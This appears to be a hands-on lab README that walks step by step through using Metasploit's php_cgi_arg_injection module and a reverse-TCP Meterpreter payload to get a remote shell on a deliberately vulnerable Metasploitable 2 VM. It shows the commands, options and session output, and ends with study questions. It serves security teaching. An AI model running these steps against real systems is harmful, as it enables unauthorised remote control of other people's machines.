 # Apache (CGI Argument Injection)

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Use the module

`use exploit/multi/http/php_cgi_arg_injection`

`set PAYLOAD php/meterpreter/reverse_tcp` (this may be optional if your already have a payload configured when you select the module)

### 3. Check the module options

`options`

```
Module options (exploit/multi/http/php_cgi_arg_injection):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   PLESK        false            yes       Exploit Plesk
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                     no        The URI to request (must be a CGI-handled PHP script)
   URIENCODING  0                yes       Level of URI URIENCODING and padding (0 for minimum)
   VHOST                         no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

### 4. Set the appropriate options

`set RHOSTS 192.168.8.142`

`set LHOST 192.168.8.147`

```
RHOSTS => 192.168.8.142
LHOST => 192.168.8.147
```

### 5. Run the exploit

`exploit`

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] Sending stage (39927 bytes) to 192.168.8.142

[*] Meterpreter session 3 opened (192.168.8.147:4444 -> 192.168.8.142:56211) at 2023-03-28 19:13:46 -0400

meterpreter >
```

### 6. Meterpreter session

Now you have a **meterpreter** session opened. This session will allow you to interact with the target.

```
meterpreter >
```

### 7. Open a shell on the target machine

`shell`

```
meterpreter > shell
Process 1 created.
Channel 1 created.
```

# Video

Video that resumes everything on this laboratory.

![](assets/apache.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.